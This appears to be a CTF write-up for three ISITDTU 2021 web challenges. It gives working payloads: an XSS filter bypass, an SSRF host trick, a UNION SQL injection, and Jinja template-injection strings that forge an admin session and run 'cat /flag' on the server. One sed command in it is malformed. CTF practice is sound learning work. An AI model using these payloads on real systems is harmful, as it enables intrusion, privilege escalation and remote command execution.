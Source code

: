 # Simple WAF 

![image](https://user-images.githubusercontent.com/39853984/143730030-622faeba-50e3-4a66-97b0-36ab698bee59.png)


Payload: https://simplewaf.duckdns.org/6ef051ac3d7b644cb6b3c22fef5677a1/?xss=%3Ciframe%0Dsrc%20=%22javascript:alert()%22%3E

# Ez SQL 

Source Code: https://github.com/DauHoangTai/My-CTF-Challenges/tree/main/ISITDTU_CTF/2021

![image](https://user-images.githubusercontent.com/39853984/143730094-56434a77-8f8f-4802-9158-25a07f6b1dc0.png)

Bypass and achieve SSRF with: http://make-127-0-0-2-rr.1u.ms

![image](https://user-images.githubusercontent.com/39853984/143730113-16b30413-57b0-4a65-8c38-54f79115bb90.png)

Bypass and achieve SQLI with: 2 union select \`3\`,\`4\` from (select 1,2,3,4 union select * from users)aa

# Warmup 

Source Code: https://github.com/DauHoangTai/My-CTF-Challenges/tree/main/ISITDTU_CTF/2021

register is impossible, login with else sentence in login route. Calculate the captcha to login as Guest

![image](https://user-images.githubusercontent.com/39853984/143730187-816eae57-4131-412b-b825-abdf562069e7.png)

My teammate did this xor. Too ez to save a file...

![image](https://user-images.githubusercontent.com/39853984/143730211-ab44380a-2868-41df-988d-81627142fc09.png)

With Guest permission, can play a bit SSTI with 56 chars and some filter 

![image](https://user-images.githubusercontent.com/39853984/143730234-ac38d60d-022c-4488-b7b2-866be2855fd3.png)

Craft cookie of admin by SSTI.

Payload: {%if session.update({'username':'admin'})%}{%endif%} {%if session.update({'check':1})%}{%endif%}

With Admin permission can do more SSTI with more character and more filter

![image](https://user-images.githubusercontent.com/39853984/143730249-c332f02a-b62a-4aa4-ab39-341a9d910ea3.png)

Bypass filter with some technical (user '\[]' to not use '.', use glo''bals to not use globals, ... ). Add flag into session to read

Payload: 

```
{%if session.update({'flag':cycler['__init__']['__glo' 'bals__']['os']['po' 'pen']('cat /flag')['re' 'ad']()})%}{%endif%}
```

Flag has some special characters which break the session, make it can not print in session. Try some sed to filter out special character 

```
cat /flag | sed "sed "/^[a-zA-Z]//g"
```

Got 34/45 characters of flag, useless. My teammate and his ancestors make the flag complete and got the point. Kudos to my teammate and his ancestors
